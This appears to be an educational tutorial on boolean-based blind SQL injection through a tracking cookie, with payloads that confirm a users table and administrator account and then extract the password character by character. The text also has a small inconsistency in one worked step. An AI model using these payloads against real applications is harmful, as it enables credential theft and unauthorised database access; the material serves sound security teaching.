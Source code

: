 Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Which the application process and uses a SQL query to determine whether this is a known user:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
While this query is vulnerable to SQL Injection, the results are not returned to the user. However, the application does behave differently depending on whether the query returns any data. For example, submitting a recognized `TrackingId` will return a "Welcome back" message in the response.

This type of behavior is enough to be able to exploit blind SQL injection. You can retrieve information by triggering different responses depending on an injected condition.

Using the example above, suppose that the two following requests are sent in turn:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2
```
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
## Example Exploit
Another example, suppose you want to find out if the `users` table does exists and if there is a user account called `Administrator`.
1. You can do this by sending the following input:
```txt
...xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.
2. Now we can change the payload to:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Verify that the condition is true, confirming that there is a user called `administrator`.
## Example Exploit Continuation
You can also use this technique to find out the password of the user called `administrator` by sending a series of inputs to test the password length:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When the condition stops being true (i.e when the "Welcome back" message disappears), we have determined the length of the password.

1. We can now then do use the same technique to find out the password one character at a time:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
Verify that the condition is true, confirming that the first password character is greater than `m`.
2.Next send the following input:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Verify that the condition is not true, confirming that the first password character is not greater than `s`.
Eventually, the following input returns a "Welcome back" message, thereby confirming that the first character is `s`:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```